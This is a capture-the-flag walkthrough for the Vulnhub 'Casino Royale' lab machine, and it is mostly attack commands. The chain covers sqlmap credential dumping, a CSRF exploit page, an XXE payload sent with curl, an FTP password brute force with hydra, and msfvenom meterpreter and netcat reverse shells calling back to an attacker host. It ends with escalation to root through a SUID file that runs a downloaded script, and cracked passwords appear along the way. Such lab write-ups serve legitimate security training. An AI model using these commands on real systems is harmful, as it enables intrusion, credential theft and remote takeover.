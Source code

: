 ## 1 Vulnhub Walkthrough

### **Penetrating Methodologies**

- IP discovery and Port Scanning.
- Browsing the IP on port 8080.
- Discovering accessible directories on the victim’s machine.
- Searching exploits via searchsploit.
- Using SQLMAP to find database and login credentials.
- Browsing directories on the browser.
- Adding Domain name to /etc/hosts file.
- Searching exploits via searchsploit.
- Using Cross-Site Request Forgery Exploit code.
- Using telnet to connect to port 25.
- Tail off the access.log file.
- Browsing directories on a browser.
- Exploiting XML External Entity vulnerability.
- Using curl to send the file.
- Creating a PHP shell using msfvenom.
- Using hydra to brute force FTP login Password.
- Logging into Ftp.
- Using Multi/handler of Metasploit Framework.
- Enumerating through directories.
- Getting Login Credentials.
- Looking for SUID file and directories.
- Creating a bash shell using msfvenom.
- Using Netcat listener to get a reverse shell.
- Getting Root Access.
- Reading the Flag.

### **Walkthrough**

`netdiscover -r 192.168.1.1/24`

`nmap -p- -sV 192.168.1.102`

`dirb http://192.168.1.102/`

`url http://192.168.1.102/index.php`

```bash
# The page revealed a pokermax software term
searchsploit poker
searchsploit -m 6766
cat 6766.txt
url http://192.168.1.102/pokeradmin/index.php
```

`sqlmap -u http://192.168.1.102/pokeradmin/index.php --forms --risk 3 --level 5 --dbs --batch`

`sqlmap -u http://192.168.1.102/pokeradmin/index.php --forms --risk 3 --level 5 -D pokerleague --dump-all --batch` [^1]

`host add_line > 192.168.1.102	casino-royale.local`

`url http://casino-royale.local/vip-client-portfolios/?url=blog`

```bash
searchsploit snowfox
searchsploit -m 35301
cp /root/35301.html /var/www/html/raj.html
# make some minor changes on raj.html
# and then restart the service for apache2
service apache2 restart
```

```bash
# Let’s connect to port 25 using telnet. We will be sending a mail to recipient valenka along with the link of raj.html file.
telnet casino-royale.local 25
mail from: user
rcpt to :valenka
data
subject : obanno
> hi
> http://192.168.1.107/raj.html
> bye
quit
```

`tail -n1 -f /var/log/apache2/access.log` [^2]

`url http://casino-royale.local/vip-client-portfolios/?uri=signin` [^3]

`url http://casino-royale.local/ultra-access-view/main.php `[^4]

`curl -d @xml.txt http://casino-royale.local/ultra-access-view/main.php` [^5]

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.107 lport=443 -f raw > shell.php5` [^6]

`hydra -l ftpUserULTRA -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.102 `[^7]

```bash
# Let’s just Login into FTP,and send .php5 files or files with no extension. then  upload our shell and gave permissions to execute.
ftp 192.168.1.102 21
put shell.php5
chmod 777 shell.php5
```

```bash
# After uploading our shell, we set up a listener using Metasploit-framework.
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.107
msf exploit(multi/handler) > set lport 443
msf exploit(multi/handler) > run
# We got the reverse shell, but it is not a proper shell. We will spawn（生成） a tty shell using python.
meterpreter > shell
meterpreter > python -c "import pty; pty.spawn('/bin/bash')"
# find sql config.php file located on /var/www/html/includes/ , and read the contents of config.php , we get DBusername and DBpassword
```

`su valenka`

`password: 11archives11!`

`find / -perm -4000 2> /dev/null` [^8]

`cd /tmp` [^9]

`msfvenom –p cmd/unix/reverse_netcat lhost=192.168.1.107 lport=1234 R` [^10]

`vim run.sh && python -m SimpleHTTPServer 8000`

`wget http://192.168.1.107:8000/run.sh` [^11]

`/opt/casino-royale/mi6_detect_test`

```bash
# This time on running the SUID file, it gave a reverse shell on our netcat listener.  Finally, we have got the root access and read the FLAG!!
nc -lvp 1234
id
cd/root
ls
cd flag
cat flag.sh
```

[原文](https://www.hackingarticles.in/casino-royale-1-vulnhub-walkthrough/)

---

[^1]: We have got the required credentials. **Username: admin** **Password: raise12million**
[^2]: We have just tail off the access log of apache2.
[^3]: Let’s Login with the credentials, we have given in the raj.html file in the **Signin****section** of the page **casino-royale.local/vip-client-portfolios/?uri=signin** **Email address:** [**user@user.local**](mailto:user@user.local) **Password: password**
[^4]: his gave us a hint to use an **XML External Entity injection** for our next step.
[^5]: looked for a **code** for **XML External Entity injection [online](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection). Therefore, we created a new file **xml.txt and pasted the code by making some minor changes. Let’s send our **XML External Entity Injection** in **file** **xml.txt** using curl. it gave us the **/etc/passwd** file
[^6]: We have created a **PHP shell** payload using **msfvenom**.
[^7]: We have used **hydra** to find the **password** of username **ftpUserULTRA** for **Ftp Login.** We have cracked the password for ftp login i.e **bankbank**
[^8]: After that, we tried to find files with SUID bit permissions. Here we found an interesting **Suid file and directory.** :**/opt/casino-royale/mi6_detect_test**
[^9]: On running the **SUID file**, we see it is most likely using a **run.sh** file but there no such file or directory. **Since the run.sh has no permissions**.  So we decided to move to **/tmp** directory.
[^10]: We need to create a bash code using Msfvenom. After that, we have copied the code in **run.sh** and executed python server.
[^11]: We have downloaded the file in the **/tmp** directory. Again ran the SUID file.